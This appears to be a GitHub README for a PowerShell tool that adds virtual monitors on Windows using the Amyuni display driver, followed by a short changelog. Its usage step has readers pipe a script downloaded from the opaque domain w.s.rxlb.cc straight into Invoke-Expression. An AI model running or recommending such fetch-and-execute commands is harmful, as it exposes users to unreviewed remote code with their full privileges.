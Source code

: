 # Windows Virtual Monitor

Easily add up to 4 virtual monitors. Automatically re-add virtual monitors on startup.

Tested on windows 10 and 11.

The script uses [Amyuni Technologies](https://www.amyuni.com/) virtual display driver. [Find out more here](https://www.amyuni.com/forum/viewtopic.php?t=3030).

# Usage

Past this into your terminal:

```powershell
$env:s = "windows-virtual-monitor"; irm "w.s.rxlb.cc" | iex
```

# Changelog

## [V1.0] - 06-04-2023

-   First Version

## [V1.1] - 10-02-2025

- Added PowerShell 7 Support